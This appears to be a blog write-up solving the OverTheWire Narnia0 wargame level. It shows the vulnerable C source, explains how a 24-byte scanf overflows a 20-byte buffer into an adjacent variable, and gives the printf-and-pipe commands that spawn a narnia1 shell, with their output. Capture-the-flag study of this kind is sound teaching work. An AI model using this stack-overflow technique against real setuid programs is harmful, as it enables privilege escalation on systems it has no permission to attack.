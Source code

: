 ```yaml
---
layout: post
title: "Solution for Narnia0: OverTheWire"
---
```



# Code

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
{% endhighlight %}


# Behaviour of this code

Initalize a variable of 4 bytes named `val` with value `0x41414141` and define a buffer of 20 bytes named `buf`.
Write 24 bytes to `buf`. If `val` has the value `0xdeadbeef`, then escalate priviliege to that of `narnia1` and spawn a shell.
Otherwise exit the program with error.

# Vulnerability
```
** Key Information **
val:  4 bytes
buf: 20 bytes
scanf(): write 24 bytes into buf.
```

On line number `10`, the scanf function takes in 24 bytes into `buf`. However, `buf` is only 20 bytes. The remaining 4 bytes overflow and ovewrite the subsequent variable, `val`.

# Exploitation

1. Fill `buf` with 20 bytes of characters.
2. Fill the rest with `0xefbeadde`(Little Endian).

```sh
$ printf "%020x""\xefbeadde" | /narnia/narnia0 
```

**Result**:
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

We changed `val` to `0xdeadbeef` successfully. However, the shell did not spawn. This is because we need to read from the standard input. we use `cat` to do this.

```sh
$ (printf "%020x\xef\xbe\xad\xde"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
whoami
narnia1
```

Done.